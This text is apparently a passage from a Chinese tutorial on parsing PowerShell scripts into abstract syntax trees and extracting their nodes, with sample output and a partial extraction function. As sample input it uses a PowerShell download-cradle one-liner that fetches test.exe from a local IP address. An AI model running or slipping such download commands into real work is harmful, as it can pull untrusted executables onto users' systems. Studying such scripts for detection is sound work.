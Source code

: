 ```
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');

```

对应的AST如下：

```
PS D:\powershell&gt; .\get_ast_002.ps1
file name: .\data\example-002.ps1
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')
--[PipelineAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')
----[CommandAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')
------[StringConstantExpressionAst]: powershell
------[InvokeMemberExpressionAst]: (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')
--------[ParenExpressionAst]: (new-object system.net.webclient)
----------[PipelineAst]: new-object system.net.webclient
------------[CommandAst]: new-object system.net.webclient
--------------[StringConstantExpressionAst]: new-object
--------------[StringConstantExpressionAst]: system.net.webclient
--------[StringConstantExpressionAst]: downloadfile
--------[StringConstantExpressionAst]: 'http://192.168.10.11/test.exe'
--------[StringConstantExpressionAst]: 'test.exe'

```

<mark>那么，如果我只想提取节点，怎么实现呢？</mark>

---


## 四.抽象语法树节点提取

### 1.提取AST节点

采用后序遍历提取AST节点，具体代码如下：

```
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [System.String]$str      # 执行ps文件名称
  )

  # 构建hashtable
  $hierarchy = @{}
  $result = [System.Collections.ArrayList]@()

  # 提取ps文件中的内容 
  Write-Output ("file name: {0}" -f ($str))
  $content = Get-content $str
  Write-Output $content

  # 创建Scipt代码块
  $code = [ScriptBlock]::Create($str)

  # 提取AST
  $code.Ast.FindAll( { $true }, $true) |
```

[NamedBlockAst]: $a = 1